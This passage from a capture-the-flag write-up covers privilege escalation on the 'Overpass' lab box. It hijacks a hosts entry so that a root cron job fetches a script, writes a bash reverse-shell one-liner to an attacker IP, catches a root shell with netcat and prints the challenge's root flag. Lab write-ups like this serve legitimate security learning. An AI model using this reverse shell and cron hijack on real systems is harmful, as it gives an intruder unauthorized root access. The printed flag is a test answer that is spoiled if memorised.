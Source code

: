 We added our local `ip address` and commented the `127.0.0.1` `overpass.thm`.


### 2. Write script for `reverse shell`

For reverse shells, go to [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


We use this one:

`bash -i >& /dev/tcp/10.8.24.27/4444 0>&1`

and save it as file: `buildscript.sh`


### 3. Create local webserver with the same paths

we create directories: `downloads/src` and move our script `buildscript.sh` there.


Then we start our local webserver: 

`python3 -m http.server 80`


We can check in our browser with `http://127.0.0.1` if we can find our path.

Also we can try to use `james` account (ssh) if he can see the script content via 

`curl overpass.thm/downloads/src/buildscript.sh`

### 4. Listen via netcat

Last step is very easy: 

```bash

└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.24.27] from (UNKNOWN) [10.10.109.109] 45932
bash: cannot set terminal process group (18509): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~#
```


After a few minutes we have a connection!


```bash

cat root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}

```


Answer: `thm{7f336f8c359dbac18d54fdd64ea753bb}`



## Thoughts:
